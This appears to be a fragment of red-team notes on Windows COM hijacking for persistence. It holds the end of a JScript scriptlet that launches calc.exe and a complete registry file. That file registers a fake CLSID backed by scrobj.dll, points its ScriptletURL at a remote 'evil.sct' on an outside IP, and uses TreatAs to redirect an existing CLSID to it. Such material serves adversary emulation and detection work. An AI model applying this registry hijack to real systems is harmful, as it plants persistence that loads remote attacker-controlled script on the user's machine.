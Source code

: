 \<script language="JScript"\>

\<![CDATA[

var r = new ActiveXObject("WScript.Shell").Run("calc.exe");

]]\>

\</script\>

\</scriptlet\>

COMHijack.reg:

Windows Registry Editor Version 5.00

[HKEY_CURRENT_USER\\SOFTWARE\\Classes\\AtomicRedTeam.1.00]

\@="AtomicRedTeam"

[HKEY_CURRENT_USER\\SOFTWARE\\Classes\\AtomicRedTeam.1.00\\CLSID]

\@="{00000001-0000-0000-0000-0000FEEDACDC}"

[HKEY_CURRENT_USER\\SOFTWARE\\Classes\\AtomicRedTeam]

\@="AtomicRedTeam"

[HKEY_CURRENT_USER\\SOFTWARE\\Classes\\AtomicRedTeam\\CLSID]

\@="{00000001-0000-0000-0000-0000FEEDACDC}"

[HKEY_CURRENT_USER\\SOFTWARE\\Classes\\CLSID\\{00000001-0000-0000-0000-0000FEEDACDC}]

\@="AtomicRedTeam"

[HKEY_CURRENT_USER\\SOFTWARE\\Classes\\CLSID\\{00000001-0000-0000-0000-0000FEEDACDC}\\InprocServer32]

\@="C:\\\\WINDOWS\\\\system32\\\\scrobj.dll"

"ThreadingModel"="Apartment"

[HKEY_CURRENT_USER\\SOFTWARE\\Classes\\CLSID\\{00000001-0000-0000-0000-0000FEEDACDC}\\ProgID]

\@="AtomicRedTeam.1.00"

[HKEY_CURRENT_USER\\SOFTWARE\\Classes\\CLSID\\{00000001-0000-0000-0000-0000FEEDACDC}\\ScriptletURL]

\@="http://10.95.14.216:8000/evil.sct"

[HKEY_CURRENT_USER\\SOFTWARE\\Classes\\CLSID\\{00000001-0000-0000-0000-0000FEEDACDC}\\VersionIndependentProgID]

\@="AtomicRedTeam"

[HKEY_CURRENT_USER\\SOFTWARE\\Classes\\CLSID\\{06DA0625-9701-43DA-BFD7-FBEEA2180A1E}]

[HKEY_CURRENT_USER\\SOFTWARE\\Classes\\CLSID\\{06DA0625-9701-43DA-BFD7-FBEEA2180A1E}\\TreatAs]

\@="{00000001-0000-0000-0000-0000FEEDACDC}"

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/ATT%26CK_Privilege_Persistence/media/8d0000060cf127a0d8e0409df62adb93.png)
